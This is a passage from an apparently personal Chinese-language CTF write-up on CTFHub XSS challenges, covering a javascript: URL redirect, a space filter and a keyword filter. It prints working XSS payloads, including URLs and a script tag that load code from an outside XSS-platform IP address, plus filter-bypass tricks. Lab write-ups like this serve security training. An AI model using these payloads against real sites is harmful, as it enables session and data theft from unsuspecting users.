 > 具体而言，它使用location.search获取查询字符串部分（例如：“?jumpto=http://challenge-1ccc67ea8612a9b6.sandbox.ctfhub.com:10800/”），然后使用.split("=")将其拆分为参数名和参数值的数组。
>

> 然后，它检查target[0].slice(1)是否等于"jumpto"，这是因为target[0]包含"?“字符，使用.slice(1)去掉”?"。如果相等，就使用location.href将页面重定向到target[1]，也就是参数值所指定的URL。
>

> 注意！当你将类似于 location.href = "javascript:alert('xss')" 这样的代码赋值给 location.href 时，浏览器会将其解释为一种特殊的URL方案，即 “javascript:”。在这种情况下，浏览器会将后面的 JavaScript 代码作为URL的一部分进行解析，然后执行它。
>

所以我们可以构造如下链接：执行js语句

```
http://challenge-915351dcd9c9655f.sandbox.ctfhub.com:10800/?jumpto=javascript:alert(1)
```

![image-20240122232820940](E:\学习资料\网安\笔记\笔记截图\image-20240122232820940.png)

然后构造链接来加载xss平台的代码

```
http://challenge-915351dcd9c9655f.sandbox.ctfhub.com:10800/?jumpto=javascript:$.getScript("//121.43.174.46/3qnfdu?1705937520")
```

![image-20240122233429666](E:\学习资料\网安\笔记\笔记截图\image-20240122233429666.png)

![image-20240122233504627](E:\学习资料\网安\笔记\笔记截图\image-20240122233504627.png)

**过滤空格**

意思很明显就是不能出现空格当然了，我们可以用/**/来代替，查看源代码发现空格都没了

![image-20240122234548317](E:\学习资料\网安\笔记\笔记截图\image-20240122234548317.png)

然后构造我们的url来访问，再次查看源代码

```
</textarea>'"><script/**/src=http://121.43.174.46/3qnfdu?1705938442></script>
```

![image-20240122234900469](E:\学习资料\网安\笔记\笔记截图\image-20240122234900469.png)

然后把我们的url在第二个框框里面提交，

![image-20240122235030874](E:\学习资料\网安\笔记\笔记截图\image-20240122235030874.png)

**过滤关键词**

题目是过滤关键词，但不知道是什么关键词，先在第一个框框里面输入我们的xss代码再查看源代码看看有什么不同

![image-20240122235519063](E:\学习资料\网安\笔记\笔记截图\image-20240122235519063.png)

发现把script给过滤了，大小写浑拼试一下发现可以

![image-20240122235744241](E:\学习资料\网安\笔记\笔记截图\image-20240122235744241.png)
